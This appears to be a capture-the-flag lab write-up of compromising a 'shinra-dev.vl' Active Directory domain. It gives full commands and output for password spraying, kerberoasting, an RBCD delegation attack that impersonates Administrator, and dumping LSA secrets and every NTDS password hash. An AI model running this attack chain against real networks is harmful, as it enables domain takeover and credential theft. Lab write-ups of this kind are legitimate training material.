| MD5:     341c 5fb8 5e84 25e4 de4e a18a 77cf cd5f
| SHA-1:   8e7e 769a f5e6 d119 8dcd 7c3a 21e8 1c29 3361 3276
| SHA-256: 150c 4649 39e3 4869 be05 1853 41d6 3421 5361 84cd d08f e851 a35e 9020 cf22 e4a5
| -----BEGIN CERTIFICATE-----
| MIIC5DCCAcygAwIBAgIQSPZQLn8DWa9IyrmLpmNzTDANBgkqhkiG9w0BAQsFADAb
| MRkwFwYDVQQDExBkYy5zaGlucmEtZGV2LnZsMB4XDTI1MTEwNTA3MDgyN1oXDTI2
| MDUwNzA3MDgyN1owGzEZMBcGA1UEAxMQZGMuc2hpbnJhLWRldi52bDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBALdaoav+mGub7nXl8SerI25S4Xi57YdI
| mmDJjDj3nlAvtNpNWFneYEUBEq69GXJZgKU9anF+YHglJzqwiYmE8o/A9WLSZ8pR
| J9+h4qSYgLWrV7iblPGiNO4wjtLcIndv6Hp3meQMNVMaguRxJsH04qjY7DcpbgMO
| 5ltOe7Iu2F/TjlGsTrGkJji41SNnBjCmUeHPLU5gFLSSFXk8I7M7kVqnLTP8e2Ev
| qBhuYm540VETIYzUUrr6dj4H3Ox5NdihTEHHANLiLS/kURdp4485sy0n1DGuRjha
| gU+pjRl0UorCJ+5/PyAva1kF2tLw9wNTx71cTW8ym/XXpH0rKI7pwvECAwEAAaMk
| MCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEB
| CwUAA4IBAQBIa7jNxLTz+gk6RjaUBzpOp3PysumnXdp0NmefTgBgl9pXR2pF0b5R
| N2vIc6uyXTKUHPVUsvyNmZy3F9iabrmFOrq6ZxM7MSvjZZqkSkPckzmzt28kUrVB
| KZDToE1BvJGIHNiQFYB8l0AgFne3Lrd6fOXbrO58NP3CPupNnjyRcG4nM+KwgY1F
| XzBLcf4QaTlaprTM/8ImRQqiZh8597JGXztLKuRYQJmL2KpjtXGW0WMY56/NetlR
| sYR2fsUI9YPf2K5W/YsNx+hlfmqleKfHiDXTdyJ144jkX7K6FuDm0LYcDx5P1POy
| 3T+cKYpaFfGvPFVJxsTR9sJvAOwSAPS5
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
49260/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49683/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49731/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
65317/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/20%OT=53%CT=%CU=%PV=Y%G=N%TM=69BD552F%P=x86_64-pc-linux-gnu)
SEQ(SP=FB%GCD=1%ISR=10A%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=FD%GCD=1%ISR=10E%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

# AD

Here I decided to password spray with the credentials obtained by dovecot and seems like only one user has credentialsover on the DC domain,



And we have only one custom share on the File System server but with again with READ permission only, but it mught also be enought to find interesting data.

```bash
└─$ netexec smb 11_hosts.txt -u william.davis -p Eniwy7j5KH+oze --shares
SMB         172.16.11.101   445    DC               [*] Windows Server 2016 Standard 14393 x64 (name:DC) (domain:shinra-dev.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.11.10    445    CLIENT01         [*] Windows 10 / Server 2019 Build 19041 x64 (name:CLIENT01) (domain:shinra-dev.vl) (signing:False) (SMBv1:None)
SMB         172.16.11.13    445    CLIENT04         [*] Windows 10 / Server 2019 Build 19041 x64 (name:CLIENT04) (domain:shinra-dev.vl) (signing:False) (SMBv1:None)
SMB         172.16.11.50    445    FILE01           [*] Windows 10 / Server 2019 Build 17763 x64 (name:FILE01) (domain:shinra-dev.vl) (signing:False) (SMBv1:None)
SMB         172.16.11.101   445    DC               [+] shinra-dev.vl\william.davis:Eniwy7j5KH+oze 
SMB         172.16.11.10    445    CLIENT01         [+] shinra-dev.vl\william.davis:Eniwy7j5KH+oze 
SMB         172.16.11.13    445    CLIENT04         [+] shinra-dev.vl\william.davis:Eniwy7j5KH+oze 
SMB         172.16.11.10    445    CLIENT01         [*] Enumerated shares
SMB         172.16.11.10    445    CLIENT01         Share           Permissions     Remark
SMB         172.16.11.10    445    CLIENT01         -----           -----------     ------
SMB         172.16.11.10    445    CLIENT01         ADMIN$                          Remote Admin
SMB         172.16.11.10    445    CLIENT01         C$                              Default share
SMB         172.16.11.10    445    CLIENT01         IPC$            READ            Remote IPC
SMB         172.16.11.50    445    FILE01           [+] shinra-dev.vl\william.davis:Eniwy7j5KH+oze 
SMB         172.16.11.13    445    CLIENT04         [*] Enumerated shares
SMB         172.16.11.13    445    CLIENT04         Share           Permissions     Remark
SMB         172.16.11.13    445    CLIENT04         -----           -----------     ------
SMB         172.16.11.13    445    CLIENT04         ADMIN$                          Remote Admin
SMB         172.16.11.13    445    CLIENT04         C$                              Default share
SMB         172.16.11.13    445    CLIENT04         IPC$            READ            Remote IPC
SMB         172.16.11.101   445    DC               [*] Enumerated shares
SMB         172.16.11.101   445    DC               Share           Permissions     Remark
SMB         172.16.11.101   445    DC               -----           -----------     ------
SMB         172.16.11.101   445    DC               ADMIN$                          Remote Admin
SMB         172.16.11.101   445    DC               C$                              Default share
SMB         172.16.11.101   445    DC               CertEnroll      READ            Active Directory Certificate Services share
SMB         172.16.11.101   445    DC               IPC$            READ            Remote IPC
SMB         172.16.11.101   445    DC               NETLOGON        READ            Logon server share 
SMB         172.16.11.101   445    DC               SYSVOL          READ            Logon server share 
SMB         172.16.11.50    445    FILE01           [*] Enumerated shares
SMB         172.16.11.50    445    FILE01           Share           Permissions     Remark
SMB         172.16.11.50    445    FILE01           -----           -----------     ------
SMB         172.16.11.50    445    FILE01           ADMIN$                          Remote Admin
SMB         172.16.11.50    445    FILE01           C$                              Default share
SMB         172.16.11.50    445    FILE01           IPC$            READ            Remote IPC
SMB         172.16.11.50    445    FILE01           Shinra          READ            Shinra Company Share

```

The official user AD list shows me traces of someone being frustrated(see the bad password counters LOL):

```bash
└─$ netexec smb 172.16.11.101 -u william.davis -p Eniwy7j5KH+oze --users
SMB         172.16.11.101   445    DC               [*] Windows Server 2016 Standard 14393 x64 (name:DC) (domain:shinra-dev.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.11.101   445    DC               [+] shinra-dev.vl\william.davis:Eniwy7j5KH+oze 
SMB         172.16.11.101   445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         172.16.11.101   445    DC               Administrator                 2022-12-03 06:26:17 0       Built-in account for administering the computer/domain 
SMB         172.16.11.101   445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         172.16.11.101   445    DC               krbtgt                        2022-12-03 14:37:38 0       Key Distribution Center Service Account 
SMB         172.16.11.101   445    DC               DefaultAccount                <never>             0       A user account managed by the system. 
SMB         172.16.11.101   445    DC               Joan.Welch                    2022-12-18 22:15:40 0        
SMB         172.16.11.101   445    DC               Mitchell.Cook                 2022-12-09 02:48:24 0        
SMB         172.16.11.101   445    DC               Victor.Davis                  2022-12-09 02:48:24 71       
SMB         172.16.11.101   445    DC               Ashleigh.Lewis                2022-12-09 02:48:24 103      
SMB         172.16.11.101   445    DC               Paula.Parry                   2022-12-09 02:48:24 0        
SMB         172.16.11.101   445    DC               Tony.Ward                     2022-12-09 02:48:28 0        
SMB         172.16.11.101   445    DC               Eric.Butler                   2022-12-09 02:48:28 0        
SMB         172.16.11.101   445    DC               Suzanne.Flynn                 2022-12-09 02:48:28 0        
SMB         172.16.11.101   445    DC               Nicola.George                 2022-12-09 02:48:28 0        
SMB         172.16.11.101   445    DC               Glenn.Barnes                  2022-12-09 02:48:29 0        
SMB         172.16.11.101   445    DC               Kayleigh.Lloyd                2022-12-09 02:48:34 0        
SMB         172.16.11.101   445    DC               Elizabeth.Hawkins             2022-12-09 02:48:34 0        
SMB         172.16.11.101   445    DC               Charlotte.Newton              2022-12-09 02:48:34 95       
SMB         172.16.11.101   445    DC               Carole.Clarke                 2022-12-09 02:48:34 0        
SMB         172.16.11.101   445    DC               Carol.Mason                   2022-12-09 02:48:34 0        
SMB         172.16.11.101   445    DC               Brenda.Taylor                 2022-12-09 02:48:34 0        
SMB         172.16.11.101   445    DC               Kyle.Kaur                     2022-12-09 02:48:34 0        
SMB         172.16.11.101   445    DC               Shane.Patel                   2022-12-09 02:48:34 0        
SMB         172.16.11.101   445    DC               Molly.Doyle                   2022-12-09 02:48:35 0        
SMB         172.16.11.101   445    DC               Sally.O'Connor                2022-12-09 02:48:35 0        
SMB         172.16.11.101   445    DC               Leah.Bryan                    2022-12-09 02:48:35 0        
SMB         172.16.11.101   445    DC               Rebecca.Hardy                 2022-12-09 02:48:35 0        
SMB         172.16.11.101   445    DC               Lynda.Parry                   2022-12-09 02:48:35 65       
SMB         172.16.11.101   445    DC               Kenneth.Harding               2022-12-09 02:48:35 0        
SMB         172.16.11.101   445    DC               Marion.Reid                   2022-12-09 02:48:35 0        
SMB         172.16.11.101   445    DC               Donna.Thornton                2022-12-09 02:48:35 0        
SMB         172.16.11.101   445    DC               Amy.Hopkins                   2022-12-09 02:48:35 71       
SMB         172.16.11.101   445    DC               Alison.Hopkins                2022-12-09 02:48:35 0        
SMB         172.16.11.101   445    DC               William.Davis                 2022-12-09 02:48:35 0        
SMB         172.16.11.101   445    DC               Conor.Brown                   2022-12-09 02:48:35 0        
SMB         172.16.11.101   445    DC               [*] Enumerated 34 local users: SHINRA-DEV

```

One account is kerberoastable but crackable by any means right now.

```bash
─$ netexec ldap 172.16.11.101 -u william.davis -p Eniwy7j5KH+oze --kerberoast kerbreppy.txt 
LDAP        172.16.11.101   389    DC               [*] Windows 10 / Server 2016 Build 14393 (name:DC) (domain:shinra-dev.vl) (signing:None) (channel binding:Never) 
LDAP        172.16.11.101   389    DC               [+] shinra-dev.vl\william.davis:Eniwy7j5KH+oze 
LDAP        172.16.11.101   389    DC               [*] Skipping disabled account: krbtgt
LDAP        172.16.11.101   389    DC               [*] Total of records returned 1
LDAP        172.16.11.101   389    DC               [*] sAMAccountName: mFileSvc$, memberOf: [], pwdLastSet: 2022-12-21 05:02:39.001238, lastLogon: <never>
LDAP        172.16.11.101   389    DC               $krb5tgs$18$hostmfilesvc.shinra-dev.vl$SHINRA-DEV.VL$*shinra-dev.vl\mFileSvc$*$ff69e69b95a3265c8c601264$6c2a06ebcb4da3514179988d16fff2fcd3b0de75b4712ce32798690df351ecdb41361b78b0544ebe0ab03f8899ec6675e2d33c0df5315ba71810e893dfb1ce403aa89e9eba861c07a1b519159b0981e2d96084ecadf6e4362a981fd36777da3dae3deeb65e8f88924eb4ac8e9abacdf42a59d0b55b26e0accdfe90964728cb1f2fc2743b05bffcfc02713510d180a857a01a30e3644d5530d87f9b91d54b8b52a0fc1c655c996f34f16a6bb1febf0299bec61606816c8f8902c336e7bdcf70488deae5cc40e19256965b2653482dd19de9576ba0dd42733c72d5ae7ce9b3a3a347ce269cce5ff838edb1962caf448e5fb98589e9b58c94f1afc428e70295602866931f02e5f2580762bd249b064a910ae377eb2ed0a5d437314020f4379bde596d34c3f75ae732150cf25bc5bc23f5992ad078398dcdb9d435c31101578d444828236ef487501f14997d3209cabd6535e0d565f37084e3ee854f954ceecf1aae371cef55a91884ba0fbda8a2167812dafbdf73d1cf3d6ab3fcb604d8259b1f0811912b15ab54dccef6600a27b520da07c0329f5397e6cd342c5f785ebe3c0769e53d24a28f20e30a63e74dff8d2d50386fcb8dce6a3cb9c8a7409c1fcb37183ecad1165331ef2b246a0a411a57770521b502a5c514026632642d22a082746749faec59220f12ffcd3716f6497e182ecd5824fa74e90842b19451513d7355a3164f942d8910cf9ab75e74ac256e7d275f5e41e594720d85d95255404f4ffc07edbb55ec2d629e457b1e21390b0d882167bfe3188c48b60d1f6624fab1a8d119a001e01e55d89d7d49881ebf3b86310857c03b34e3431b4075003e353645f91ba1b123ed7696234c10a5f49aa7013e7ba4d172ce2a05d8fbc12b9fef48dc419ccf3321f29fb585f1970b9dfcdc5bb66a478af28f8e63e9d24e513153368299685db5515467e96c575b8395f8130d11ecd80989f3e79b7a05b611cab60c6ed57d401c1e6bd1fd205badbe608dde61d03cff425f82f6790cc162bec02664914933bd5d2cc8cbccbe2efb0f96b2562e5b45f0a7389066038408e2261148feb5c92aa6905ab99e67e9a32d44715ce66252fd97fb9972f5be484e7f96b963a952889af1e22448b81c66ae498124d49289d0d11aa13a9e643742256742ec35a2c2f29b33f97a607ee3aa63128d5eb42693cfc462ad46168cd57d93fb2da036da68982bc7552c9dc3d6f4b831ab5049b47b753f3094e438f31eaa4e7024d75d84f507c7daa01115cb3e62841aef9b2c4dfe3668023cba0e4413ee9b5a0edc49f85cd00951e3973778a9f4bbd438f378faf81b58a3fe32f1261cfdfec406bdac6febcdec31a6467ae0cf2d763de4384548c643c9a4818d17dfa71d8a8f0f3a6ffe02bb042384e6f2665d6fca61b888db4ea8c10c0ce7514cd7e6a47371b1584ef920f09be0523f9bb88baac1e3cac1dec27bef81f0ecde91073667462cb21da3fcded032a58e4bfa52a65c332b8c886bfb3717087d44783a9c3d34ea31cd6f5462dc6ed1544fa694b4270f074d63a1138a1f98797938468f6c9c82da459c298fbe55bd2c42070fcbb872ed2738a02ad0

```

The machine quota is positive, which opens for possible RBCD attacks in future:

```bash
└─$ netexec ldap 172.16.11.101 -u william.davis -p Eniwy7j5KH+oze -M maq
LDAP        172.16.11.101   389    DC               [*] Windows 10 / Server 2016 Build 14393 (name:DC) (domain:shinra-dev.vl) (signing:None) (channel binding:Never) 
LDAP        172.16.11.101   389    DC               [+] shinra-dev.vl\william.davis:Eniwy7j5KH+oze 
MAQ         172.16.11.101   389    DC               [*] Getting the MachineAccountQuota
MAQ         172.16.11.101   389    DC               MachineAccountQuota: 10

```

And no hidden passwords in GPOs I think it's time to move on to Bloodhound.

```bash
──(user㉿kali-almi)-[~/Downloads/Shinra]
└─$ netexec smb 172.16.11.101 -u william.davis -p Eniwy7j5KH+oze -M gpp_autologin
SMB         172.16.11.101   445    DC               [*] Windows Server 2016 Standard 14393 x64 (name:DC) (domain:shinra-dev.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.11.101   445    DC               [+] shinra-dev.vl\william.davis:Eniwy7j5KH+oze 
SMB         172.16.11.101   445    DC               [*] Enumerated shares
SMB         172.16.11.101   445    DC               Share           Permissions     Remark
SMB         172.16.11.101   445    DC               -----           -----------     ------
SMB         172.16.11.101   445    DC               ADMIN$                          Remote Admin
SMB         172.16.11.101   445    DC               C$                              Default share
SMB         172.16.11.101   445    DC               CertEnroll      READ            Active Directory Certificate Services share
SMB         172.16.11.101   445    DC               IPC$            READ            Remote IPC
SMB         172.16.11.101   445    DC               NETLOGON        READ            Logon server share 
SMB         172.16.11.101   445    DC               SYSVOL          READ            Logon server share 
GPP_AUTO... 172.16.11.101   445    DC               [+] Found SYSVOL share
GPP_AUTO... 172.16.11.101   445    DC               [*] Searching for Registry.xml
                                                                                                                                                                                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Shinra]
└─$ 
                                                                                                                                                                                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Shinra]
└─$ netexec smb 172.16.11.101 -u william.davis -p Eniwy7j5KH+oze -M gpp_password 
SMB         172.16.11.101   445    DC               [*] Windows Server 2016 Standard 14393 x64 (name:DC) (domain:shinra-dev.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         172.16.11.101   445    DC               [+] shinra-dev.vl\william.davis:Eniwy7j5KH+oze 
SMB         172.16.11.101   445    DC               [*] Enumerated shares
SMB         172.16.11.101   445    DC               Share           Permissions     Remark
SMB         172.16.11.101   445    DC               -----           -----------     ------
SMB         172.16.11.101   445    DC               ADMIN$                          Remote Admin
SMB         172.16.11.101   445    DC               C$                              Default share
SMB         172.16.11.101   445    DC               CertEnroll      READ            Active Directory Certificate Services share
SMB         172.16.11.101   445    DC               IPC$            READ            Remote IPC
SMB         172.16.11.101   445    DC               NETLOGON        READ            Logon server share 
SMB         172.16.11.101   445    DC               SYSVOL          READ            Logon server share 
GPP_PASS... 172.16.11.101   445    DC               [+] Found SYSVOL share
GPP_PASS... 172.16.11.101   445    DC               [*] Searching for potential XML files containing passwords
                                                                                                                      
```



I also tried to upload malicous files on the **IT** folder hoping for a NTLM theft but no luck:  


# DNS

Here since there are many webservers I will try to dump all the DNS records so i can populate all the VHOSTS in my local file:

```bash
└─$ adidnsdump -u SHINRA.VL\\WILLIAM.DAVIS ldap://172.16.11.101 
Password: 
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Querying zone for records
[+] Found 17 records, saving to records.csv
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Shinra]
└─$ cat records.csv 
type,name,value
?,registry,?
?,prov,?
A,ForestDnsZones,172.16.12.101
A,ForestDnsZones,172.16.11.101
A,file01,172.16.11.50
A,DomainDnsZones,172.16.12.101
A,DomainDnsZones,172.16.11.101
A,dc,172.16.11.101
A,dc,172.16.12.101
A,client04,172.16.11.13
?,client03,?
?,client02,?
A,client01,172.16.11.10
NS,_msdcs,dc.shinra-dev.vl.
NS,@,dc.shinra-dev.vl.
A,@,172.16.12.101
A,@,172.16.11.101
                    
```

Now I know the registry is associated with the machine with .71, but I dont have any idea about that prov?

# Bloodhound time

William is part of the IT group:



Except this I don't see much more and no protected users which is also nice:



Now here I was not able to obtain anything from this standpoint so far so I will move on to then  Linux machines.

# Road to DA

Now  that we have appured that FILE01 has **GenericWrite** over the DC and I will start by adding a dummy pc:

```
└─$ impacket-addcomputer SHINRA-DEV.VL/William.Davis:"Eniwy7j5KH+oze" -dc-ip 172.16.11.101 -computer-name 'YOVECIO$' -computer-pass 'Coglione1!' 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account YOVECIO$ with password Coglione1!.
```

And now writing the attributes:

```
└─$ impacket-rbcd -delegate-from 'YOVECIO$' -delegate-to 'DC$' -action write 'SHINRA-DEV.VL/FILE01$' -hashes :37bf73dcb8f7bf7eebe858e7f261ccb8
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] YOVECIO$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     YOVECIO$     (S-1-5-21-102928273-333185529-3642627421-11601)
```

And now I should be able to impersonate Administrator on the DC.

```
└─$ impacket-getST -spn cifs/dc.shinra-dev.vl shinra-dev.vl/yovecio\$:'Coglione1!' -impersonate Administrator -dc-ip 172.16.11.101
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.shinra-dev.vl@SHINRA-DEV.VL.ccache
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Shinra]
└─$ export KRB5CCNAME=/home/user/Downloads/Shinra/Administrator@cifs_dc.shinra-dev.vl@SHINRA-DEV.VL.ccache
```

And now dumping all the secrets:

```
└─$ netexec smb dc.shinra-dev.vl --use-kcache --lsa --dpapi
SMB         dc.shinra-dev.vl 445    DC               [*] Windows Server 2016 Standard 14393 x64 (name:DC) (domain:shinra-dev.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         dc.shinra-dev.vl 445    DC               [+] shinra-dev.vl\Administrator from ccache (Pwn3d!)
SMB         dc.shinra-dev.vl 445    DC               [+] Dumping LSA secrets
SMB         dc.shinra-dev.vl 445    DC               SHINRA-DEV\DC$:plain_password_hex:520c791d73c7fc999cfd61e33771bcc4209a5ec694451aa4535c50d5200b8113582ede251aaba2580f1bab6cdc77dbbf015a2f2a7fb6719aacac8bc8b0407c4d154839c9e5647b6163ddce4a99400bc13a6342d41e1b648f80d34dddfe75234c0f45515a19d1d1324c2768d62a058c55c504a01fb70dfcf1cf230fa1804813af34099eac9ff1f44c0ff0bdbfa6107c6128ffb3f8605273ca7ff24e15d9c5d1ccbdbae4fa7b9a5b49e03a0616b95b1cacfa21eeb2c86af27d5d5a1cb9fe3d51c07751f798f3e4c33927f6903594987291cc02e90ae0f9385b182574f9e66b3c98c52d4b5f59d9ebfda8f91158ddf67995
SMB         dc.shinra-dev.vl 445    DC               SHINRA-DEV\DC$:aad3b435b51404eeaad3b435b51404ee:fab3c7ab7a4920fb6193a1c9a77c7b52:::
SMB         dc.shinra-dev.vl 445    DC               dpapi_machinekey:0xff92251f44e472c9d3f10fafb300e0f64542b534
dpapi_userkey:0xff4e0165a43fe8cb4e26176c7c6032860a5093de
SMB         dc.shinra-dev.vl 445    DC               [+] Dumped 3 LSA secrets to /home/user/.nxc/logs/lsa/dc.shinra-dev.vl_None_2026-03-25_155653.secrets and /home/user/.nxc/logs/lsa/dc.shinra-dev.vl_None_2026-03-25_155653.cached
SMB         dc.shinra-dev.vl 445    DC               [+] User is Domain Administrator, exporting domain backupkey...
SMB         dc.shinra-dev.vl 445    DC               [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         dc.shinra-dev.vl 445    DC               [+] Got 10 decrypted masterkeys. Looting secrets...
```

And dumping the hashes from NTDS.dit:

```
─$ netexec smb dc.shinra-dev.vl --use-kcache --ntds  
SMB         dc.shinra-dev.vl 445    DC               [*] Windows Server 2016 Standard 14393 x64 (name:DC) (domain:shinra-dev.vl) (signing:True) (SMBv1:True) (Null Auth:True)
SMB         dc.shinra-dev.vl 445    DC               [+] shinra-dev.vl\Administrator from ccache (Pwn3d!)
SMB         dc.shinra-dev.vl 445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         dc.shinra-dev.vl 445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:245e9c4bb260cddc3ba0d0293febaaef:::
SMB         dc.shinra-dev.vl 445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         dc.shinra-dev.vl 445    DC               krbtgt:502:aad3b435b51404eeaad3b435b51404ee:74882240d48feabcbe1a3865e364f496:::
SMB         dc.shinra-dev.vl 445    DC               DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Joan.Welch:1108:aad3b435b51404eeaad3b435b51404ee:3993f825f6a8f10b40470c439d906bcb:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Mitchell.Cook:1109:aad3b435b51404eeaad3b435b51404ee:987b5beae776ea622554ae59a715218c:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Victor.Davis:1110:aad3b435b51404eeaad3b435b51404ee:ed9322aae732c27a0ab2c8af969a9f0d:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Ashleigh.Lewis:1111:aad3b435b51404eeaad3b435b51404ee:80c780e59d6785d4a8c7659a47a0b4b9:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Paula.Parry:1112:aad3b435b51404eeaad3b435b51404ee:8d963c8b5569f6ea45b7cea9c6a2e3e6:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Tony.Ward:1114:aad3b435b51404eeaad3b435b51404ee:28fe5baf7b0a8041b60f8d56276bfe81:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Eric.Butler:1115:aad3b435b51404eeaad3b435b51404ee:89848e8c695170b3b14ef928a00e6644:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Suzanne.Flynn:1116:aad3b435b51404eeaad3b435b51404ee:01c76be8fa312fa1bae889e13e45bc4e:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Nicola.George:1117:aad3b435b51404eeaad3b435b51404ee:143119818a3ecdf9dfed12dc69a0f317:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Glenn.Barnes:1118:aad3b435b51404eeaad3b435b51404ee:d52a1f3a9029d5170c482c3ed564a863:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Kayleigh.Lloyd:1120:aad3b435b51404eeaad3b435b51404ee:2f483665f78ca3a0b78d7dad0e6646e7:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Elizabeth.Hawkins:1121:aad3b435b51404eeaad3b435b51404ee:0549f29f8a0d4f7ae95ddf67fc2cf363:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Charlotte.Newton:1122:aad3b435b51404eeaad3b435b51404ee:e5ed4755af5dc288135c9f4121d50f3c:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Carole.Clarke:1123:aad3b435b51404eeaad3b435b51404ee:1a48c14cb689b379cea09552ba21fe19:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Carol.Mason:1124:aad3b435b51404eeaad3b435b51404ee:b2bbfcedfe8a3bc76869f255b0755f0e:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Brenda.Taylor:1125:aad3b435b51404eeaad3b435b51404ee:1e08f7aeb5c3d7f972b9e385b2fe3ed4:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Kyle.Kaur:1126:aad3b435b51404eeaad3b435b51404ee:c113d3827bf870df55057ee64b149f71:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Shane.Patel:1127:aad3b435b51404eeaad3b435b51404ee:78db408fac2b5615bc857e1f99940b80:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Molly.Doyle:1128:aad3b435b51404eeaad3b435b51404ee:9a7c0ef961b3190e5048024e1027ffdf:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Sally.O'Connor:1129:aad3b435b51404eeaad3b435b51404ee:973b95a14ceffac7a7b90b08700f842d:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Leah.Bryan:1130:aad3b435b51404eeaad3b435b51404ee:f03366c2bacf21bed4546f5ffb41a5dc:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Rebecca.Hardy:1131:aad3b435b51404eeaad3b435b51404ee:b36b5d472311b012611f1f071b730cdb:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Lynda.Parry:1132:aad3b435b51404eeaad3b435b51404ee:037d5135b76c644c2b6e416728cc375b:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Kenneth.Harding:1133:aad3b435b51404eeaad3b435b51404ee:aa8e2aca7a0e8fd8157c03b974e09e24:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Marion.Reid:1134:aad3b435b51404eeaad3b435b51404ee:694b834bab22ed3538ce65595c3fd418:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Donna.Thornton:1135:aad3b435b51404eeaad3b435b51404ee:46fa123a0ffa8263db759b21f9d5ef58:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Amy.Hopkins:1136:aad3b435b51404eeaad3b435b51404ee:0b9bc38346bf475c62fc3e99b285d3c9:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Alison.Hopkins:1137:aad3b435b51404eeaad3b435b51404ee:05cf41b965c9bd96d410cfd9c4638cbd:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\William.Davis:1138:aad3b435b51404eeaad3b435b51404ee:20fa82f672dd086df62411155637dcf8:::
SMB         dc.shinra-dev.vl 445    DC               shinra-dev.vl\Conor.Brown:1139:aad3b435b51404eeaad3b435b51404ee:a569d0f85658d1b855e437f416310806:::
SMB         dc.shinra-dev.vl 445    DC               DC$:1000:aad3b435b51404eeaad3b435b51404ee:fab3c7ab7a4920fb6193a1c9a77c7b52:::
